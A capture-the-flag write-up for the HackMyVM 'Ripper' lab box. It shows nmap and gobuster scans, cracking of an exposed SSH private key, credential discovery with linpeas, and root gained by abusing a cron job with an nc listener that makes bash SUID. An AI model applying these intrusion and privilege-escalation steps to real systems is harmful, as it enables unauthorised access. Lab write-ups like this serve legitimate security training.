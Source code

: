 ```yaml
---
layout: default
title : muzec - Ripper Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/121029569-b1eb7a80-c776-11eb-9ca4-3a19dbe2adaa.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/ripper]
└─$ nmap -sC -sV -oA nmap 172.16.139.201                                                                                                                         255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 06:57 EDT
Nmap scan report for 172.16.139.201
Host is up (0.00026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 0c:3f:13:54:6e:6e:e6:56:d2:91:eb:ad:95:36:c6:8d (RSA)
|   256 9b:e6:8e:14:39:7a:17:a3:80:88:cd:77:2e:c3:3b:1a (ECDSA)
|_  256 85:5a:05:2a:4b:c0:b2:36:ea:8a:e2:8a:b2:ef:bc:df (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.42 seconds
```

We have two open ports let start our enumeration on port 80 HTTP seems it running Apache web server.

![image](https://user-images.githubusercontent.com/69868171/121029569-b1eb7a80-c776-11eb-9ca4-3a19dbe2adaa.png)

But nothing out of the ordinary stand out checking source found nothing that lead us to try and find some hidden directory with gobuster.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/ripper]
└─$ gobuster dir -u http://172.16.139.201/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak
===============================================================
```

We wait for it checking if we have any hidden directory.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/ripper]
└─$ gobuster dir -u http://172.16.139.201/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.139.201/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,bak,txt
[+] Timeout:                 10s
===============================================================
2021/06/07 07:01:59 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 57]
/server-status        (Status: 403) [Size: 279]
/staff_statements.txt (Status: 200) [Size: 107]
                                               
===============================================================
2021/06/07 07:06:04 Finished
===============================================================
```

Seems we have one `/staff_statements.txt` let check to confirm it.

![image](https://user-images.githubusercontent.com/69868171/121031233-2b379d00-c778-11eb-9b96-88eddac07ef5.png)

`The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files. ` nice some `bak` file maybe a private SSH key is active let try directory brute forcing again.


```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/ripper]                                                                                                               
└─$ gobuster dir -u http://172.16.139.201/ -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,bak                                                                 
===============================================================                                                                                                        
Gobuster v3.1.0                                                                                                                                                        
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                          
===============================================================                                                                                                        
[+] Url:                     http://172.16.139.201/                                                                                                                    
[+] Method:                  GET                                                   
[+] Threads:                 10                                                    
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt                  
[+] Negative Status codes:   404                                                                                                                                       
[+] User Agent:              gobuster/3.1.0                                                                                                                            
[+] Extensions:              txt,php,html,bak                                      
[+] Timeout:                 10s                                                                                                                                       
===============================================================                    
2021/06/07 07:08:55 Starting gobuster in directory enumeration mode                
===============================================================                                                                                                        
/.hta.bak             (Status: 403) [Size: 279]                                    
/.hta                 (Status: 403) [Size: 279]                                                                                                                        
/.hta.txt             (Status: 403) [Size: 279]                                                                                                                        
/.hta.php             (Status: 403) [Size: 279]                                                                                                                        
/.htaccess.php        (Status: 403) [Size: 279]                                                                                                                        
/.htpasswd.html       (Status: 403) [Size: 279]                                    
/.htaccess.html       (Status: 403) [Size: 279]                                    
/.htpasswd.bak        (Status: 403) [Size: 279]                                    
/.htaccess            (Status: 403) [Size: 279]                                                                                                                        
/.htpasswd            (Status: 403) [Size: 279]                                                                                                                        
/.htaccess.bak        (Status: 403) [Size: 279]                                                                                                                        
/.htpasswd.txt        (Status: 403) [Size: 279]                                    
/.htaccess.txt        (Status: 403) [Size: 279]                                    
/.htpasswd.php        (Status: 403) [Size: 279]                                    
/.hta.html            (Status: 403) [Size: 279]                                                                                                                        
/id_rsa.bak           (Status: 200) [Size: 1876]                                   
/index.html           (Status: 200) [Size: 57]                                     
/index.html           (Status: 200) [Size: 57]                                                                                                                         
/server-status        (Status: 403) [Size: 279]                                    
                                                                                   
===============================================================    
```

Boom a `id_rsa.bak` SSH private key cool let download it.

![image](https://user-images.githubusercontent.com/69868171/121031897-c4ff4a00-c778-11eb-9421-b9b3d0878c89.png)

I try using it to log in SSh with username `jack` but no luck seems we have to crack it i try using John the Ripper still the same issue but found some really interesting tools.

![image](https://user-images.githubusercontent.com/69868171/121032336-2f17ef00-c779-11eb-8059-bb9ed2135d95.png)

Now let try using it to crack the SSH private key `./RSAcrack.sh /usr/share/wordlists/rockyou.txt id_rsa.bak` .

![image](https://user-images.githubusercontent.com/69868171/121032966-c715d880-c779-11eb-85ef-7574e59726f0.png)

Boom now let log in with the user `jack` how do i get the `jack` username sure it from the VM.

![image](https://user-images.githubusercontent.com/69868171/121033202-f9273a80-c779-11eb-8928-9f61c745c1f8.png)

Now give the `id_rsa.bak` permission with `chmod 600 id_rsa.bak` and we should be good to go.

![image](https://user-images.githubusercontent.com/69868171/121033479-3be91280-c77a-11eb-8331-53a10e7e7d7e.png)

We are in checking the passwd file seems we have another user on the home directory but we have no access to it.

![image](https://user-images.githubusercontent.com/69868171/121033653-6044ef00-c77a-11eb-88b7-f67c05fd57a2.png)

Time to move our privilege to another user running `linpeas.sh` .

![image](https://user-images.githubusercontent.com/69868171/121035090-8a4ae100-c77b-11eb-9b12-652bad8c7614.png)

We have a credentials let try it for the user `helder` .

![image](https://user-images.githubusercontent.com/69868171/121037208-4527ae80-c77d-11eb-9541-a43747c79a50.png)

Boom we are in now let get root.

### Privilege Escalation

Checking `Sudo -l` nothing so i decided to run `pspy64` to see what we are missing.

![image](https://user-images.githubusercontent.com/69868171/121038810-93897d00-c77e-11eb-925b-cca144d3bea1.png)

nice `/bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi` 

Checking for a passwd file in the home directory of helder now try to abuse it let create the file first `echo "Il0V3lipt0n1c3t3a" > /home/helder/passwd.txt` .

![image](https://user-images.githubusercontent.com/69868171/121040814-342c6c80-c780-11eb-9367-8135f4ccde0c.png)

```
echo "bash" > /tmp/root
nc -lnvp 10000 < /tmp/root
ls -la /usr/bin/bash
```

Now let run the bash with -p to get root.

![image](https://user-images.githubusercontent.com/69868171/121041087-6f2ea000-c780-11eb-9575-673bfd6d64c3.png)

Root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

